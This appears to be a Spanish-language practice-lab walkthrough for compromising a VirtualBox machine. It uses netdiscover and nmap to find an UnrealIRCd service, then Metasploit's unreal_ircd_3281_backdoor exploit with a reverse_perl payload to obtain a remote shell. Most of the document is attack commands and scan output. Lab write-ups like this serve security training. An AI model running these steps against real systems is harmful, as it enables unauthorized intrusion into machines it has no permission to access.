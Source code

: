 # Instalar maquina poner en modo puente

## Buscar la ip

```bash
sudo netdiscover -r 10.0.0.0/16
```
Vemos las ip

```bash
sudo nmap 10.0.6.20
nmap -Pn -sV 10.0.6.20
```

Servicios que nos da son estos:

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
MAC Address: 08:00:27:3C:46:DC (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: irc.foonet.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds


## Descubrir que exploit puedo lanzar para atacar el unico servicio que hay corriendo


- Entramos en exploit db y buscamos UnrealIRCd

## Tirar plainloads para introducir shell


```bash
sudo msfconsole

```

## Buscamos el exploit que vamos utilizar, payload y los utilizamos

```bash
search UnrealIRCd

use unix/irc/unreal_ircd_3281_backdoor

show payload

set payload cmd/unix/reverse_perl

```
## Ajustamos parametros necesarios

```bash
show option 

set RHOSTS = 10.0.6.20

set LHOST = Mi ip

run

```

## Tendria una shell para intrar en la maquina